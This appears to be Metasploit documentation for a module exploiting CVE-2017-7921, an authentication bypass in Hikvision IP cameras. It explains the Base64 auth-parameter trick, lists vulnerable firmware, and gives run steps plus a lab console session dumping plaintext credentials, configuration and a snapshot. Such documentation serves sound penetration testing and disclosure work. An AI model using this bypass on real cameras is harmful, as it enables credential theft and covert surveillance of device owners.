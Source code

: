 ## Vulnerable Application

Many Hikvision IP cameras have improper authorization logic that allows unauthenticated information disclosure
of camera information, such as detailed hardware and software configuration, user credentials, and camera snapshots.

This module allows the attacker to disclose this information without the need of authenticaton by utilizing the
improper authentication logic to send a request to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `password` parameter and will instead use the username part of this string
as the user to log in. Using user `admin` will allow an attacker to retrieve and disclosed any information
of the targetted device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

## Verification Steps

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

1. `use auxiliary/gather/hikvision_info_disclosure_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `check`
1. `set PRINT true`
1. `set ACTION Automatic`
1. `run`
1. You should get a full disclosure of all camera information supported by this module.

## Options
### PRINT
This option allows you print all information collected to the console during execution except for
camera snapshots.

## Actions
### Automatic
Retrieves all information suported by this module
### Configuration
Retrieves the camera hardware and software configuration
### Credentials
Retrieves all configured users including the passwords in plain text format and stores them in the database.
This can be checked by using the command `creds -O <target IP>` at the Metasploit prompt.
### Snapshot
Takes a camera snapshot and stores it as a JPEG file in loot.

All information disclosed is by default stored in loot

## Scenarios

### Hikvision DS-2CD2142FWD-IS Firmware Version V5.4.1 build 160525

```
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set ACTION Automatic
ACTION => Automatic
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > set PRINT true
PRINT => true
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > options

Module options (auxiliary/gather/hikvision_info_disclosure_cve_2017_7921):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PRINT    true             no        Print output to console (not applicable for snapshot)
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Auxiliary action:

   Name       Description
   ----       -----------
   Automatic  Dump all information


msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > check
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Running in automatic mode
[*] Getting the user credentials...
[*] Credentials for user:admin are added to the database...
[*] Credentials for user:admln are added to the database...
[*] User Credentials Information:
-----------------------------
Username:admin | ID:1 | Role:Administrator | Password: Pa$$W0rd
Username:admln | ID:2 | Role:Operator | Password: asdf1234

[+] User credentials are successfully saved to /root/.msf4/loot/20221002172346_default_192.168.100.180_hikvision.creden_049224.txt
[*] Getting the camera hardware and software configuration...
[*] Camera Device Information:
--------------------------
Device name: IP CAMERA
Device ID: 88
Device description: IPCamera
Device manufacturer: Hikvision.China
Device model: DS-2CD2142FWD-IS
Device S/N: DS-2CD2142FWD-IS20160627BBWR616855101
Device MAC: bc:ad:28:ff:ff:ff
Device firware version: V5.4.1
Device firmware release: build 160525
Device boot version: V1.3.4
Device boot release: 100316
Device hardware version: 0x0

Camera Network Information:
---------------------------
IP interface: 1
IP version: v4
IP assignment: static
IP address: 192.168.100.180
IP subnet mask: 255.255.255.0
Default gateway: 192.168.100.1
Primary DNS: 8.8.8.8

Camera Storage Information:
---------------------------
Storage volume name: HDD1
Storage volume ID: 1
Storage volume description: DAS
Storage device: HDD
Storage type: internal
Storage capacity (MB): 30543
Storage device status: HD_NORMAL

[+] Camera configuration details are successfully saved to /root/.msf4/loot/20221002172347_default_192.168.100.180_hikvision.config_549113.txt
[*] Taking a camera snapshot...
[+] Camera snapshot is successfully saved to /root/.msf4/loot/20221002172348_default_192.168.100.180_hikvision.image_963468.bin
[*] Auxiliary module execution completed

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admln   asdf1234         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(gather/hikvision_info_disclosure_cve_2017_7921) >
```

## Limitations
No limitations are identified so far using this module.
